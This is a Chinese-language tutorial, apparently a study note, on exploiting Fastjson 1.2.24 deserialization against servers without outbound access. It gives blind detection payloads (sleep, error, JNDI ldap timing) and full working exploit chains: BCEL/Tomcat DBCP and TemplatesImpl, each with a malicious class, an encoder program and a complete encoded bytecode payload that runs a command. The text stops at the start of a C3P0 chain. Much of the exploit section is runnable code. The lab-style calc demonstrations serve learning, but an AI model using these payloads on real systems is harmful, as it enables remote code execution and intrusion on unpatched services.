






# Fastjson不出网

参考文章：https://xz.aliyun.com/news/11938

​					https://github.com/safe6Sec/Fastjson

当发现一个使用Fastjson反序列化漏洞的点，但目标服务器**无法访问公网（不出网）** 时，传统的“反弹Shell”或“下载执行”的利用方式会立即失效。

核心思路要从“直接获取反向连接”转变为“在目标服务器内部执行操作”，并利用内部资源来达成目标。

不出网的可能情况：

| 不出网场景                | 特点               | 可能的利用思路                                               |
| :------------------------ | :----------------- | :----------------------------------------------------------- |
| **完全隔离**              | 无任何外网连接     | 1. **写入本地Webshell**（最优先） 2. 信息收集，为横向移动做准备 3. 攻击内网其他服务（如Redis, MySQL, 其他Web应用） |
| **有HTTP/HTTPS出网**      | 只能走80/443端口   | 1. **使用HTTPS/WebSocket反向Shell** 2. 使用`curl`/`wget`等命令行HTTP工具下载文件 3. 使用HTTP隧道工具（如reGeorg, TinyShell） |
| **仅DNS出网**             | 只能发DNS查询      | 1. **使用DNS隧道工具**（如iodine, dnscat2）                  |
| **有网络但受限（如NAT）** | 可出网，但不可入网 | 1. **使用反向连接**（让目标连你） 2. 使用ICMP隧道等隐蔽隧道  |

## 不出网判断是否有漏洞

### 一、延时判断（1）

在之前的fastjson1.2.24为例，

```java
package NoNetwork;

import com.alibaba.fastjson.JSON;

public class fastjson {
    public static void main(String[] args) {
        // 记录开始时间
        long startTime = System.currentTimeMillis();

        String poc = "{  \n" +
                "  \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",  \n" +
                "  \"dataSourceName\":\"ldap://10.56.93.60:1389/m6r1fy\",  \n" +
                "  \"autoCommit\":true  \n" +
                "}";

        try {
            JSON.parse(poc);
        } catch (Exception e) {
            e.printStackTrace();
        }

        // 记录结束时间并计算耗时
        long endTime = System.currentTimeMillis();
        long duration = endTime - startTime;

        System.out.println("JSON解析执行时间: " + duration + " 毫秒");
    }
}
```

这个代码除了执行反序列化还是统计代码运行的时间，当能够正常弹出计算器的时候，



可以看到执行时间大约450毫秒左右，但是当给一个错误的jndi地址的时候（修改一下端口）



执行时间明显变慢

当目标存在 FastJSON 反序列化漏洞（如 1.2.24 版本）且`autoTypeSupport`未禁用时，解析包含`JdbcRowSetImpl`的恶意 JSON 会触发以下行为：

1. 实例化`JdbcRowSetImpl`并调用其`setDataSourceName`方法，传入 LDAP/RMI 地址；
2. 调用`setAutoCommit`方法时，内部会触发`connect()`尝试连接指定的 LDAP/RMI 服务。

此时的延时差异源于：

- **有效地址（但无实际服务）**：目标会尝试建立网络连接，经历 TCP 三次握手超时（通常约 2-3 秒），导致总耗时较长；
- **无效地址（如错误端口）**：可能快速触发 "连接被拒绝"（端口未开放），耗时较短；
- **无漏洞**：仅进行普通 JSON 解析，无网络操作，耗时极短（通常几十毫秒内）。

### 利用延迟（Sleep）进行盲测（2）

这是最经典、最可靠的盲测方法。

- **原理**： 构造一个能执行 `Thread.sleep()`的Payload。如果漏洞存在，服务器在处理请求时会“卡住”一段时间，然后才返回响应。通过比较响应时间，可以判断代码是否被执行。

- **步骤**：**发送正常请求**： 先发送一个合法的JSON请求，记录响应时间（例如，100毫秒）。这是基准时间。**发送Sleep Payload**： 发送一个包含 `Thread.sleep(10000)`（睡眠10秒）的恶意JSON。**观察响应时间**：**如果漏洞存在**： 服务器会停顿大约10秒后才响应。你收到的响应时间会远大于10秒（加上网络和处理时间）。**如果漏洞不存在**： 服务器会立即返回错误（如500错误）或正常处理，响应时间与基准时间相近。

- **Payload示例（概念性）**:

  ```
  {
    "@type": "com.alibaba.fastjson.JSONObject",
    "x": {
      "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
      "driverClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
      },
      "driverClassName": "$$BCEL$$$..." // 这里是编译并BCEL编码后的Sleep类
    }
  }
  ```

- **优点**： 结果非常明确，误报率低。

- **缺点**：需要提前将Sleep逻辑编译成类文件，并转换为BCEL或其它格式，过程繁琐。可能会被WAF识别和拦截。对服务器性能有短暂影响，在高并发环境需谨慎使用。

------

### 二：利用报错信息（Error-based）

- **原理**： 构造一个Payload，让Fastjson在反序列化过程中尝试访问不存在的类、方法或字段，从而触发一个包含特定关键词的Java异常。通过检查HTTP响应的状态码和Body内容，可以判断漏洞是否存在。

- **步骤**： 发送一个精心构造的、会引发错误的Payload。 检查HTTP响应状态码是否为 `500 Internal Server Error`。 仔细分析响应体（Body），搜索常见的Java异常关键字，如 `ClassNotFoundException`, `NullPointerException`, `getter`方法名等。

- **Payload示例**:

  - **触发 `ClassNotFoundException`**： 尝试加载一个肯定不存在的类。

    ```
    {"@type":"java.this.ClassDoesNotExist"}
    ```

    - **判断**： 如果返回500错误，且错误信息中包含 `ClassNotFoundException`和 `java.this.ClassDoesNotExist`，说明Fastjson确实尝试去加载这个类，漏洞可能存在。

  - **利用不存在的属性**： 指定一个存在的类，但设置一个它不存在的属性。

    ```
    {"@type":"java.net.URL", "notARealProperty":"test"}
    ```

    - **判断**： Fastjson会尝试调用 `setNotARealProperty`方法，但该方法不存在，可能抛出异常。观察错误信息中是否包含 `setter`字样。

- **优点**： 简单快速，无需等待。

- **缺点**： 依赖于应用程序是否开启**调试模式**（即是否将详细错误信息返回给用户）。在生产环境中，错误信息可能被全局异常处理器捕获，只返回一个模糊的错误页面，导致无法判断。 需要人工分析错误内容。

------

### 三：利用本地文件读取（如果可能）

- **原理**： 如果目标服务器上存在一个你知道内容的文件（例如，Web应用的静态文件 `robots.txt`），可以尝试构造Payload去读取这个文件，并将内容回显到HTTP响应中。
- **步骤**： 构造一个能执行文件读取操作（如 `java.io.FileInputStream`）的Payload。 让读取的内容（文件内容）以某种方式影响到HTTP响应，例如，将其赋值给某个最终会出现在响应报文中的变量。
- **优点**： 一旦成功，证据确凿，不仅能证明漏洞存在，还能直接获取敏感信息。
- **缺点**： **实现难度极高**： 在不出网且无法执行任意命令的情况下，很难将文件内容完美地回显到HTTP响应中。这需要一条非常特殊的利用链。 通常不作为首选的探测方法，而是作为漏洞验证成功后的利用手段。

------

### 四：利用资源创建或修改（侧信道攻击）

这是一种更隐蔽、更高级的方法，需要你对服务器有部分了解。

- **原理**： 构造Payload，让服务器执行一个会留下“痕迹”的操作，但这个操作不依赖网络。
- **示例**： **创建文件**： 尝试在Web目录（如 `/tmp/test.txt`）下创建一个文件。然后，尝试通过Web直接访问这个文件 `http://target.com/tmp/test.txt`。如果能访问到，则证明代码被执行了。 **创建Java进程**： 执行命令启动一个耗时较长的Java进程（如 `ping -c 10 127.0.0.1`在Linux下）。然后通过系统命令（如果你有其它途径）或监控发现进程是否存在。
- **优点**： 非常隐蔽，难以被传统的WAF检测。
- **缺点**： 非常依赖于环境，需要精确的路径和权限。 需要一种方式去验证“痕迹”是否产生，这本身可能就需要其他漏洞配合。

### 实际操作建议与流程

在实际渗透中，建议按以下流程进行：

1. **初步探测（低风险）**： 先使用**报错Payload**（方法二）。快速发送几个请求，看看是否会返回详细的Java错误信息。如果应用返回了详细错误，这是最好的初步指标。
2. **确认测试（中等风险）**： 如果初步探测有积极迹象，使用**延迟Payload**（方法一）。发送一个睡眠5秒的Payload。如果响应时间明显延迟，基本可以确定漏洞存在。
3. **工具辅助**： 使用像 `fastjson_tool`这样的工具，它通常集成了各种版本的Payload（包括不出网的延迟检测Payload），可以自动化这个过程。
4. **保持谨慎**： 每次测试后，给服务器留出恢复时间，避免高频请求导致服务不可用（DoS）。 优先在测试环境或获得明确授权的目标上进行演练。

### 方法总结

| 方法         | 原理                  | 可观察现象                        | 可靠性             | 隐蔽性             |
| ------------ | --------------------- | --------------------------------- | ------------------ | ------------------ |
| **延迟检测** | 触发 `Thread.sleep()` | HTTP响应时间显著延长              | **极高**           | 低（易被监控发现） |
| **报错信息** | 触发Java异常          | HTTP状态码500，响应体含异常信息   | 中（依赖错误回显） | 中                 |
| **文件操作** | 创建/修改/读取文件    | 通过Web访问或其它方式验证文件变化 | 高（但难实现）     | 高                 |
| **侧信道**   | 创建进程、网络连接等  | 通过系统监控发现变化              | 高（但难验证）     | **极高**           |

对于不出网的目标，**“延迟检测”是最可靠、最常用的判断手段**。

## 出网（不出网）有漏洞（无漏洞）总结




| 情况       | 描述                 | Step 1 无害探测         | Step 2 出网利用 (DNSLog) | Step 3 不出网利用 (Sleep) | 最终判断                   |
| :--------- | :------------------- | :---------------------- | :----------------------- | :------------------------ | :------------------------- |
| **情况一** | **有漏洞，且出网**   | 有漏洞特征（如500错误） | **有DNS记录**            | (无需测试)                | **有漏洞，可直接利用**     |
| **情况二** | **无漏洞**           | 无漏洞特征（如200成功） | 无DNS记录                | 无延迟                    | 版本安全或有防护           |
| **情况三** | **有漏洞，但不出网** | 有漏洞特征（如500错误） | 无DNS记录                | **有显著延迟**            | **有漏洞，需用不出网方法** |
| **情况四** | **无漏洞**           | 无漏洞特征（如200成功） | 无DNS记录                | 无延迟                    | 版本安全或有防护           |

## 利用（有漏洞不出王的情况）

### BCEL-Tomcat&Spring链

> 利用Java的BCEL字节码进行绕过，字节码，就是Java源代码编译后的产物，它是一种中间代码，既不是完全的机器语言，也不是咱们写的那些高级语言代码。JVM（Java虚拟机）就是通过解释或编译这些字节码来运行咱们的程序。而BCEL字节码检测器是一个Java字节码操作库,可以用于分析、修改和创建Java类文件的字节码.

#### gadget链：poc

```json
{
   "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
   "driverClassLoader": {
        "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
   },
   "driverClassName": "$$BCEL$$xxxx"
}
```

#### 条件：

| 必要条件         | 具体说明                                                     |
| :--------------- | :----------------------------------------------------------- |
| **Fastjson版本** | 存在反序列化漏洞的版本，通常 ≤ 1.2.24                        |
| **JDK版本**      | 通常建议 ≤ JDK 8u251。高版本JDK（如8u251+）中`com.sun.org.apache.bcel.internal.util.ClassLoader`被限制或移除 |
| **依赖组件**     | 1. **Tomcat DBCP**：需要`tomcat-dbcp.jar`（Tomcat 8.0+ 使用`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`，Tomcat 8.0- 使用`org.apache.tomcat.dbcp.dbcp.BasicDataSource`） 2. **BCEL支持**：需要BCEL库（`bcel.jar`），或JDK内嵌的BCEL组件（JDK8及以下） |
| **恶意类构造**   | 需提前编译好恶意Java类（如`Evil.class`），该类静态代码块或构造函数中包含恶意代码 |
| **BCEL编码**     | 需将恶意`.class`文件的字节码使用BCEL格式编码，生成以`$$BCEL$$`开头的长字符串 |
| **AutoType功能** | Fastjson的AutoType功能需要开启（这是触发`@type`解析的前提）  |

#### 步骤

##### 一、制作恶意类

准备执行的恶意类

Poc.java

```java
package com.example.nonetwork.FastjsonDemo.two;
public class Poc{
    public Poc(){
        try{
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {
        }
    }
}
```

通过`javac Poc.java`编译成`Poc.class`文件。



##### 生成BCEL字符串

```java
package com.example.nonetwork.FastjsonDemo.two;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public  class Bcel {

    public static void main(String[] args) throws IOException {
        Path path = Paths.get("Poc.class的路径");
        byte[] bytes = Files.readAllBytes(path);
        System.out.println(bytes.length);
        String result = Utility.encode(bytes,true);
        BufferedWriter bw = new BufferedWriter(new FileWriter("res.txt"));
        bw.write("$$BCEL$$" + result);
        bw.close();
    }
}
```

生成一个res.txt文件，内容如下

```txt
$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQMO$C1$Q$7d$85$95$c5u$91$F$E$bfM$3c$J$i$dc$8b7$8c$X$95$T$w$R$a3$5eKm$c8$c2nKv$8b$f2$8f$3c$7bQ$e3$c1$l$e0$8fRg9$I$89$9dd$day$f3$e6$cd$b4$fd$fa$fe$f8$Ep$84$3d$H6J$O$ca$a8$e4$b1$96$eeU$h5$h$eb66$Yr$c7$81$K$cc$JC$b6$de$b8e$b0N$f5$83d$uv$C$r$_$tQ_$c67$bc$l$SR$e8$Z$$F$X$7c$3c$8bg$d55$G$a7$a7$t$b1$90$ed$m$a5$e4$bbZ$i$O$f9$pw$91$c7$b2$8dM$X$5b$d8$sM$c1C$e1b$H$bb$M$954$ef$87$5c$N$fc$f3$a9$90c$Th$c5$d0$U$3a$f2$e5$94G$e3P$faJ$xi$9et$3c$f2$db$3c1$c3D$ab3$Zi$9f$m$9f$g0xs$89$ab$feP$K$c3P$9aC$d7$Te$82$88$a6q$G$d2$fc$F$d5z$a3$f3$8f$d3$a2$d1$e4T$92$e4A$7d$n$db3q$a0$G$ad$c5$82n$ac$85L$92$W$f6$91$a3$c7L$X$p$a3$5b$92w$u$baG$86$M$u7$df$c0$de$91$vg_a$dd$3d$c3$ea$bc$Q$c3B$B$k$96$88$b1B$9c$g$9d$40$98EZ$F$d2$f0$d2$ef$n$r$97P$P$99$lr$cc$a6$M$b9$d5$b4O$91$f0$M$bc_$c5$a8$ca$87$d0$B$A$A
```

##### 构造payload

利用链的poc构造代码

```java
package com.example.nonetwork.FastjsonDemo.two;

import com.alibaba.fastjson.JSON;

public class Demo {
    public static void main(String[] args) {
//        org.apache.tomcat.dbcp.dbcp2.BasicDataSource
        String poc="{\n" +
                "   \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "   \"driverClassLoader\": {\n" +
                "        \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "   },\n" +
                "   \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeQMO$C1$Q$7d$85$95$c5u$91$F$E$bfM$3c$J$i$dc$8b7$8c$X$95$T$w$R$a3$5eKm$c8$c2nKv$8b$f2$8f$3c$7bQ$e3$c1$l$e0$8fRg9$I$89$9dd$day$f3$e6$cd$b4$fd$fa$fe$f8$Ep$84$3d$H6J$O$ca$a8$e4$b1$96$eeU$h5$h$eb66$Yr$c7$81$K$cc$JC$b6$de$b8e$b0N$f5$83d$uv$C$r$_$tQ_$c67$bc$l$SR$e8$Z$$F$X$7c$3c$8bg$d55$G$a7$a7$t$b1$90$ed$m$a5$e4$bbZ$i$O$f9$pw$91$c7$b2$8dM$X$5b$d8$sM$c1C$e1b$H$bb$M$954$ef$87$5c$N$fc$f3$a9$90c$Th$c5$d0$U$3a$f2$e5$94G$e3P$faJ$xi$9et$3c$f2$db$3c1$c3D$ab3$Zi$9f$m$9f$g0xs$89$ab$feP$K$c3P$9aC$d7$Te$82$88$a6q$G$d2$fc$F$d5z$a3$f3$8f$d3$a2$d1$e4T$92$e4A$7d$n$db3q$a0$G$ad$c5$82n$ac$85L$92$W$f6$91$a3$c7L$X$p$a3$5b$92w$u$baG$86$M$u7$df$c0$de$91$vg_a$dd$3d$c3$ea$bc$Q$c3B$B$k$96$88$b1B$9c$g$9d$40$98EZ$F$d2$f0$d2$ef$n$r$97P$P$99$lr$cc$a6$M$b9$d5$b4O$91$f0$M$bc_$c5$a8$ca$87$d0$B$A$A\"\n" +
                "}\n";
        JSON.parseObject(poc);

    }
}
```

运行这个代码就可以触发弹出计算器

parse()和parseObject()两种方法的区别及导致不同结果的关键原因：

| 方法                   | 执行流程                                                     | 是否触发漏洞 | 关键原因                                                     |
| :--------------------- | :----------------------------------------------------------- | :----------- | :----------------------------------------------------------- |
| **`parseObject(poc)`** | 1. 解析JSON，实例化`BasicDataSource`并设置属性（`driverClassLoader`和`driverClassName`） 2. **额外执行 `JSON.toJSON(obj)`**，尝试将对象转换为`JSONObject` 3. 在转换过程中，**调用目标对象的Getter方法**（如`getConnection`） 4. `BasicDataSource`初始化，触发`Class.forName()`加载"驱动" 5. BCEL ClassLoader解码`$$BCEL$$`字符串，加载并初始化恶意类 | ✅ 成功       | **额外的 `toJSON`操作触发了Getter方法，驱动了`BasicDataSource`的完整初始化流程**，使得BCEL字节码被加载执行。 |
| **`parse(poc)`**       | 1. 解析JSON，实例化`BasicDataSource`并设置属性（`driverClassLoader`和`driverClassName`） 2. **过程结束**，仅完成反序列化，未触发后续初始化 | ❌ 失败       | **缺少触发点**。仅设置了属性，但未调用任何会引发`BasicDataSource`真正去加载驱动类的Getter或特定方法，利用链停滞。 |

（我的复现在IDEA创建的Spring项目，jdk使用jdk8u,fastjson1.2.24,记得添加bcel，tomcat-dbcp等依赖）

pom.xml内容：

```xml
<dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.24</version>
         </dependency>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-dbcp</artifactId>
            <version>8.5.31</version>
        </dependency>

        <dependency>
            <groupId>org.apache.bcel</groupId>
            <artifactId>bcel</artifactId>
            <version>5.2</version>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
    </dependencies>
```

### TemplatesImpl链

#### **一、TemplatesImpl 链核心原理**

TemplatesImpl 链的核心在于，攻击者通过 Fastjson 反序列化操作，控制 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`类的属性，使其加载并执行恶意字节码。(这个类是jdk8版本自带的类，所以不需要任何依赖)

整个攻击流程的调用链可以清晰地展示如下：




简单来说，Fastjson 在反序列化过程中，会尝试调用对象的 Getter 方法。当我们构造的 Payload 中包含 `_outputProperties`字段时，会触发 `TemplatesImpl.getOutputProperties()`方法，进而启动上述链条，最终加载并实例化我们嵌入在 `_bytecodes`中的恶意类，导致代码执行

#### **二、利用成功的关键条件**

要成功利用此漏洞，必须同时满足以下几个条件

：

| 条件                             | 说明                                                         |
| :------------------------------- | :----------------------------------------------------------- |
| **Fastjson 版本**                | 存在反序列化漏洞的版本，通常指 **1.2.22 至 1.2.24**。其他版本可能已修复或需要不同绕过方式。 |
| **开启 `SupportNonPublicField`** | 必须使用 `JSON.parseObject(payload, Object.class, Feature.SupportNonPublicField)`。因为 `_bytecodes`、`_name`等是关键**私有属性**，没有此特性无法为其赋值。 |
| **恶意类构造**                   | 恶意类必须继承 `AbstractTranslet`，恶意代码（如命令执行）通常放在**类的静态代码块或构造函数**中。 |
| **JDK 环境**                     | 目标环境中必须存在 `TemplatesImpl`类，它通常包含在 JDK 中。  |

#### 复现步骤

##### pom.xml

```xml
<dependencies>
    <!-- 存在漏洞的 Fastjson 版本 -->
    <dependency>
        <groupId>com.alibaba</groupId>
        <artifactId>fastjson</artifactId>
        <version>1.2.24</version>
    </dependency>
    <!-- 用于方便地生成恶意类的字节码 -->
    <dependency>
        <groupId>org.javassist</groupId>
        <artifactId>javassist</artifactId>
        <version>3.29.2-GA</version>
    </dependency>
</dependencies>
```

##### 编写恶意类`EvilClass.java`

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class EvilClass extends AbstractTranslet {
    static {
        try {
            // 此处为要执行的恶意代码，例如弹出计算器
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```

用javac编译这个类，编译的时候有警告不用理会

##### 构造payload

创建EvilClassBase64Converter.java类实现对.class文件转换为base64字符串

```java
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.IOException;
import java.util.Base64;

public class EvilClassBase64Converter {
    public static void main(String[] args) {
        // 指定EvilClass.class文件的绝对路径
        String filePath = "EvilClass.class绝对路径";
        
        try {
            // 读取class文件内容
            byte[] classBytes = readClassFile(filePath);
            
            // 转换为Base64编码
            String base64Encoded = Base64.getEncoder().encodeToString(classBytes);
            
            // 输出结果
            System.out.println("EvilClass.class的Base64编码:");
            System.out.println(base64Encoded);
            
        } catch (IOException e) {
            System.err.println("处理文件时发生错误: " + e.getMessage());
            e.printStackTrace();
        }
    }
    
    /**
     * 读取class文件内容为字节数组
     */
    private static byte[] readClassFile(String filePath) throws IOException {
        try (FileInputStream fis = new FileInputStream(filePath);
             ByteArrayOutputStream bos = new ByteArrayOutputStream()) {
            
            byte[] buffer = new byte[1024];
            int bytesRead;
            
            // 读取文件内容到字节数组输出流
            while ((bytesRead = fis.read(buffer)) != -1) {
                bos.write(buffer, 0, bytesRead);
            }
            
            return bos.toByteArray();
        }
    }
}
    
```

代码运行后会生成base64编码的字符串，然后复制添加到payload中，如下

##### 利用poc复现

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import java.util.Base64;

public class POC {
    public static void main(String[] args) throws Exception {


        // 构造完整的 POC
        String poc = "{\n" +
                "    \"@type\": \"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\n" +
                "    \"_bytecodes\": [\"" + "yv66vgAAADQAJwoACAAXCgAYABkIABoKABgAGwcAHAoABQAdBwAeBwAfAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACABAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAcAQAKU291cmNlRmlsZQEADkV2aWxDbGFzcy5qYXZhDAAJAAoHACEMACIAIwEACGNhbGMuZXhlDAAkACUBABNqYXZhL2lvL0lPRXhjZXB0aW9uDAAmAAoBAAlFdmlsQ2xhc3MBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAD3ByaW50U3RhY2tUcmFjZQAhAAcACAAAAAAABAABAAkACgABAAsAAAAdAAEAAQAAAAUqtwABsQAAAAEADAAAAAYAAQAAAAgAAQANAA4AAgALAAAAGQAAAAMAAAABsQAAAAEADAAAAAYAAQAAABIADwAAAAQAAQAQAAEADQARAAIACwAAABkAAAAEAAAAAbEAAAABAAwAAAAGAAEAAAAUAA8AAAAEAAEAEAAIABIACgABAAsAAABPAAIAAQAAABK4AAISA7YABFenAAhLKrYABrEAAQAAAAkADAAFAAIADAAAABYABQAAAAsACQAOAAwADAANAA0AEQAPABMAAAAHAAJMBwAUBAABABUAAAACABY=" + "\"],\n" +
                "    '_name': 'a.b',\n" +
                "    '_tfactory': {},\n" +
                "    \"_outputProperties\": {}\n" +
                "}";

//        System.out.println("Payload: " + poc);

        // 触发反序列化漏洞，关键是要传入 Feature.SupportNonPublicField
        JSON.parseObject(poc, Object.class, Feature.SupportNonPublicField);
    }
}
```

成功弹出计算器。

所以这个链有点就是不需要依赖，但是利用条件苛刻，需要加 Feature.SupportNonPublicField

### C3P0链

利用链的触发逻辑如下：



### 🔧 复现详细步骤

#### 步骤 1：准备环境与依赖

创建一个Maven项目，在 `pom.xml`中添加必要的依赖。**关键点在于使用存在漏洞的Fastjson版本**，并引入包含可利用链的组件（如Commons Collections）。

```xml
<dependencies>
    <!-- 存在反序列化漏洞的 Fastjson 版本 -->
    <dependency>
